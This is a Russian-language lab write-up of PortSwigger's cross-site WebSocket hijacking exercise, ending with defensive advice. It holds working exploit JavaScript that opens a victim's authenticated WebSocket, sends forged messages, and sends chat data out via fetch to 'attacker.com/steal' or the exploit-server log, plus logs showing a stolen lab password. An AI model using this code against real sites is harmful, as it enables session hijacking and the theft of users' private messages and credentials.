

## кросс-сайтовый захват WebSocket

это  опасная уязвимость WebSocket, потому что дает атакующему двусторонний доступ к сессии жертвы

атакующий может сделать :

- отправлять любые сообщения от имени жертвы (аналог CSRF, но через WebSocket)
   
- читать все сообщения, которые сервер отправляет жертве (утечка конфиденциальных данных)
   

как построить атаку:

создаем HTML-страницу на своем сервере:
```html
<script>
var ws = new WebSocket('wss://vulnerable.com/chat'); 
// открыл соединение
ws.onopen = function() {
    ws.send('{"action":"transfer","amount":10000,"to":"attacker"}');
};
// отправил данные пакетами
ws.onmessage = function(event) {
    fetch('https://attacker.com/steal?data=' + event.data);
};
//выполнил действие в нем, например, получил данные 
</script>
```
Когда жертва заходит на эту страницу, браузер открывает WebSocket к уязвимому сайту, используя куки жертвы. Соединение устанавливается, и атакующий может отправлять сообщения и читать ответы


>Межсайтовый захват WebSocket (также известный как перекрестный угон WebSocket) включает в себя уязвимость межсайтового запроса (CSRF) на [рукопожатии](https://portswigger.net/web-security/websockets/what-are-websockets#how-are-websocket-connections-established) [WebSocket](https://portswigger.net/web-security/websockets/what-are-websockets#how-are-websocket-connections-established). Это возникает, когда запрос на рукопожатие WebSocket полагается исключительно на HTTP-файлы cookie для обработки сеанса и не содержит никаких токенов CSRF или других непредсказуемых значений.

> Злоумышленник может создать вредоносную веб-страницу на своем собственном домене, которая устанавливает межсайтовое соединение WebSocket с уязвимым приложением. Приложение будет обрабатывать соединение в контексте сеанса пользователя-жертвы с приложением.

> Затем страница злоумышленника может отправлять произвольные сообщения на сервер через соединение и читать содержимое сообщений, полученных с сервера. Это означает, что, в отличие от обычного CSRF, злоумышленник получает двустороннее взаимодействие с скомпрометированным приложением.

короче говоря, если рукопожатие просходит основываясь только на куки файлы, без csrf токенов, тогда через скрипт - можно от имени жертвы открывать соеденения и получать полный контроль над веб-сокет жертвы

---------

лаба  https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab

задание: получить доступ к переписке жертвы и украсть флаг  из нее

---------


на странице с чатом в html коде нашел путь к файлу
GET /resources/js/chat.js HTTP/2

открыл файл - а там код - который обьясняет работу веб-сокета

```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 3561

(function () {
    var chatForm = document.getElementById("chatForm");
    var messageBox = document.getElementById("message-box");
    var webSocket = openWebSocket();

    messageBox.addEventListener("keydown", function (e) {
        if (e.key === "Enter" && !e.shiftKey) {
            e.preventDefault();
            sendMessage(new FormData(chatForm));
            chatForm.reset();
        }
    });

    chatForm.addEventListener("submit", function (e) {
        e.preventDefault();
        sendMessage(new FormData(this));
        this.reset();
    });

    function writeMessage(className, user, content) {
        var row = document.createElement("tr");
        row.className = className

        var userCell = document.createElement("th");
        var contentCell = document.createElement("td");
        userCell.innerHTML = user;
        contentCell.innerHTML = (typeof window.renderChatMessage === "function") ? window.renderChatMessage(content) : content;

        row.appendChild(userCell);
        row.appendChild(contentCell);
        document.getElementById("chat-area").appendChild(row);
    }

    function sendMessage(data) {
        var object = {};
        data.forEach(function (value, key) {
            object[key] = htmlEncode(value);
        });

        openWebSocket().then(ws => ws.send(JSON.stringify(object)));
    }

    function htmlEncode(str) {
        if (chatForm.getAttribute("encode")) {
            return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
                var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
                return lookup[c];
            });
        }
        return str;
    }

    function openWebSocket() {
       return new Promise(res => {
            if (webSocket) {
                res(webSocket);
                return;
            }

            let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

            newWebSocket.onopen = function (evt) {
                writeMessage("system", "System:", "No chat history on record");
                newWebSocket.send("READY");
                res(newWebSocket);
            }

            newWebSocket.onmessage = function (evt) {
                var message = evt.data;

                if (message === "TYPING") {
                    writeMessage("typing", "", "[typing...]")
                } else {
                    var messageJson = JSON.parse(message);
                    if (messageJson && messageJson['user'] !== "CONNECTED") {
                        Array.from(document.getElementsByClassName("system")).forEach(function (element) {
                            element.parentNode.removeChild(element);
                        });
                    }
                    Array.from(document.getElementsByClassName("typing")).forEach(function (element) {
                        element.parentNode.removeChild(element);
                    });

                    if (messageJson['user'] && messageJson['content']) {
                        writeMessage("message", messageJson['user'] + ":", messageJson['content'])
                    } else if (messageJson['error']) {
                        writeMessage('message', "Error:", messageJson['error']);
                    }
                }
            };

            newWebSocket.onclose = function (evt) {
                webSocket = undefined;
                writeMessage("message", "System:", "--- Disconnected ---");
            };
        });
    }
})();


```

видно, что для открытия нового соединения требудется сперва рукопожатие, и потом первый пакет отправить с READY

```js
 newWebSocket.onopen = function (evt) {
                writeMessage("system", "System:", "No chat history on record");
                newWebSocket.send("READY");
                res(newWebSocket);
            }
```

еще полезная инфа - это то - какая защита на клиенте стоит
```js
function htmlEncode(str) {
        if (chatForm.getAttribute("encode")) {
            return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
                var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
                return lookup[c];
            });
        }
        return str;
    }
```

------


вот запрос - который открывает рукопожатие
видно - что здесь нет защиты CSRF

```http
GET /chat HTTP/2
Host: 0a6000b503c114cc8094036700db0047.web-security-academy.net
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Upgrade: websocket
Origin: https://0a6000b503c114cc8094036700db0047.web-security-academy.net
Sec-Websocket-Version: 13
Accept-Encoding: gzip, deflate, br
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=IFpt5q0pDZehMD2eHAVzFqLpM55ijIGE
Sec-Websocket-Key: fo55cQzseYKIuu4EX72Cpw==


```

поэтому: чтобы ускорить процесс
едем сюда https://csrfshark.github.io/app/
подставляем этот запрос

и получаем:
```html
<!DOCTYPE html><html lang="en">
	<body>
		<h1>Form CSRF PoC</h1>
		<form method="GET" action="https://0a6000b503c114cc8094036700db0047.web-security-academy.net/chat">
			<input type="submit" value="Submit Request">
		</form>
	</body>
</html>

```

вот эксплойт сервер лабы
`https://exploit-0a3f00bc035f14c7801902aa01810087.exploit-server.net/exploit`

теперь нужно, чтобы перейдя по ссылке на эксплойт-сайт/сервер

выполнилась эта форма html , что я создал только что,
но чтобы еще было + 1 действие = это отправить стортовый пакет READY 
и потом еще всю полученную переписку - слить на эксплойт сервер!

благо - уже есть часть кода из файла, что я нашел  `/resources/js/chat.js`
так что можно по образцу делать прям

-----

```js
<script>
var ws = new WebSocket('wss://0a6000b503c114cc8094036700db0047.web-security-academy.net/chat');

// откр ws

ws.onopen = function() {
    ws.send("READY");
};

// запускаю шарманку!
// далее автоматом приходят все смс из этого чата

ws.onmessage = function(event) {
    var data = encodeURIComponent(event.data);
    fetch('/log?data=' + data);
};
// берем эти смс и шлем их себе на базууу!

</script>
```
сработало!


вижу в логах шифр данные



вот расшифровал (это было обычное url кодирование)

```q
    2026-03-21 19:39:54  0000 "GET /deliver-to-victim HTTP/1.1" 302 "user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36"
10.0.3.20       

2026-03-21 19:39:54  0000 "GET /exploit/ HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.20       

2026-03-21 19:39:54  0000 "GET /log?data=

{"user":"Hal Pline","content":"Hello, how can I help?"} 

HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.20       

2026-03-21 19:39:54  0000 "GET /log?data=

{"user":"You","content":"I forgot my password"} 

HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.20       

2026-03-21 19:39:54  0000 "GET /log?data=

👉🍺{"user":"Hal Pline","content":"No problem carlos, it&apos;s 0yx9jc2wromwvxrvnzmb"}🍺👈 


HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.20       

2026-03-21 19:39:54  0000 "GET /log?data={"user":"You","content":"Thanks, I hope this doesn&apos;t come back to bite me!"} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.20       

2026-03-21 19:39:54  0000 "GET /log?data={"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"

```

ну и вот то самый флаг 
```json
👉🍺{"user":"Hal Pline","content":"No problem carlos, it&apos;s 0yx9jc2wromwvxrvnzmb"}🍺👈 
```

залогинился под карлосом - лаба решена!!!!!


------


### суть уязвимости

WebSocket handshake не имеет CSRF-защиты и полагается только на cookies для аутентификации

#### кратко

Жертва заходит на вредоносную страницу
   
скрипт открывает WebSocket к уязвимому сайту (куки жертвы подставляются автоматически)
   
 Атакующий читает и отправляет сообщения от имени жертвы


### защита

1 Использовать CSRF-токены в WebSocket hand-shake
   
2 Проверять Origin заголовок
   
3 Не полагаться только на cookies для авторизации Web=Socket
 
4 Использовать одноразовые токены в URL при установке соединения
